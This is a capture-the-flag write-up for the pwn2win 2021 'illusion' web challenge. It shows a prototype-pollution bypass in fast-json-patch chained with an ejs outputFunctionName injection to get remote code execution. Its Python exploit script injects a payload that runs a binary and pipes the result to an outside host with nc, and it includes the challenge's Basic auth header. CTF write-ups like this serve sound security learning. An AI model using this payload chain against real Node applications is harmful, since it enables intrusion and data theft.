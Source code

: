 ```yaml
---
title: illusion - pwn2win 2021
date: 2021-06-03 18:32:20
author: Sayooj B Kumar
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - Web Exploitation
tags:
 - RCE
 - Prototype pollution
---
```


**tl;dr**

+ Using Prototype pollution vulnerablity in fast-json-patch pollute value in outputFunctionName 
+ Get a shell as the flag can only be obtained using binary file 

<!--more-->

**No. Of Solves:** 78

**Challenge points:** 151

**Solved By:** [1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_), [Captain-Kay](https://twitter.com/captainkay11)

## Challenge Description

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will desactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behavior.

**Source Code:** [here](source-code.zip)

## Analysis

We have a list of service and status in `index.js`.

```
let services = {
    status: "online",
    cameras: "online",
    doors: "online",
    dome: "online",
    turrets: "online"
   }
   app.use("/static", express.static(__dirname + "/static"));
   app.get("/", async (req, res) => {
       const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
       res.end(html)
   })
```

End point `/change_status` is used to update status of services , this is done with the help of package called `fast-json-patch`. 

```
app.post("/change_status", (req, res) => {
    console.log("changing status")
    let patch = []
    console.log(req.body);
    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });
```

`fast-json-patch` initially had vulnerablity regarding *Prototype pollution* and it was said to be fixed in the current version that we use in challenge.

```
if (banPrototypeModifications && key == '__proto__') {
                throw new TypeError('JSON-Patch: modifying `__proto__` prop is banned for security reasons, if this was on purpose, please set `banPrototypeModifications` flag false and pass it to this function. More info in fast-json-patch README');
            }
```

The Patch was not good enough to prevent Prototype pollution as they check for existance of `__proto__` there still exists a chance for Prototype pollution using `prototype` [Check Here](https://github.com/Starcounter-Jack/JSON-Patch/pull/262)



## Solution

Now we can overwrite values as we need  using `constructor/prototype/<variable>`.

### RCE using Prototype pollution

we have ejs as template engine and injecting code to `outputFunctionName` in `ejs.js` can lead to RCE [Check Here](https://github.com/mde/ejs/issues/451) 


```
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
```
## Exploit Script

```
import requests

TARGET_URL = 'http://illusion.pwn2win.party:23121'
head={"Authorization":"Basic YWRtaW46cWpoeXFwZWJ4ZW12dnF1cg=="}// change

r=requests.post(TARGET_URL + '/change_status',json={"constructor/prototype/outputFunctionName":"a; return process.mainModule.require('child_process').execSync('./readflag|nc <ip> <port>'); //"},headers=head)
print(r.text)

r=requests.get(TARGET_URL,headers=head)
print(r.text)

```

## Flag

```
CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
```







 


